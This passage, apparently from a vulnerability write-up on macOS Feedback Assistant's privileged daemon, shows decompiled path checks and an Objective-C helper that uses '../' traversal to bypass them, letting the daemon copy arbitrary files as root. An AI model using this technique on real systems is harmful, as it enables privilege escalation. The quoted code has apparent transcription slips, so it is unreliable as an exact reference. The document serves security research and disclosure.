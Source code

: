 Now the check is passed

## Give Me Root

Now continue code auditing on `FBAPrivilegedDaemon`.

The method `copyLogFiles:` accepts one `NSDictionary` argument, whose keys as the sources and the correspond `NSString` as destination to perform file copy. It supports multiple tasks at once, and the path can be both directory or file.

`-[FBAPrivilegedDaemon copyLogFiles:]`

```objectivec
if ([src hasPrefix:@"/LibraryLogs"] || [src hasPrefix:@"/var/log"]) {
  if (![self canModifyPath:dst]) {
    result[src] = [NSString stringWithFormat:@"Invalid destination: %@", dst];
  } else {
    result[src] = @"File must be copied from a log directory";
  }
}
```

`-[FBAPrivilegedDaemon canModifyPath:]`

```objectivec
if ([dst hasPrefix:@"/var/folders/"] || [dst hasPrefix:@"/private/var/"] || [dst hasPrefix:@"/tmp/"]) {
  return TRUE;
} else {
  return [dst rangeOfString:@"Library/Caches/com.apple.appleseed.FeedbackAssistant"] != 0;
}
```

The source must start with `/Library/Logs` or` /var/log`, and the destination must match one the following patterns:

* ^\/var\/folders
* ^\/private\/var\/
* ^\/tmp
* Library\/Caches\/com\.apple\.appleseed\.FeedbackAssistant

It will not override an existing destination.

These constraints can be bypassed throuth path traversal. So now we can copy arbitrary file or folder to anywhere unless rootless protected.

```objectivec
NSMutableDictionary *traversal(NSDictionary *mapping) {
  NSMutableDictionary *transformed = [[NSMutableDictionary alloc] init];
  for (NSString *key in mapping) {
    NSString *val = mapping[key];
    NSString *newKey = [@"/var/log/../../.." stringByAppendingPathComponent:key];
    NSString *newVal = [@"/tmp/../.." stringByAppendingPathComponent:val];
    transformed[newKey] = newVal;
  }
  return transformed;
}
```
